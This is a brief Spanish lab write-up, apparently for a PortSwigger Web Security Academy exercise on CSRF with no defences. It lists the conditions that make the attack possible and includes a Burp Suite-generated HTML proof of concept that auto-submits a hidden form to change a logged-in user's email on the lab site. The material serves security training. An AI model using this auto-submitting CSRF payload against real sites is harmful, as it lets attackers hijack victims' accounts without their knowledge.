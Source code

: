 # CSRF sin ningún tipo de defensa 

Tags: #CSRF #BurpSuite 

## Sección de análisis 

```bash 
1. Una acción relevante                            - Funcionalidad de cambio de email 
2. Manejo de una sesión basada en Cookie           - Sesión de Cookie 
3. Parámetro de petición imprevisible              
```

## CSRF PoC - HTML

```HTML 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac7001d03cc4e768530088d007d0021.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="o&#64;o&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

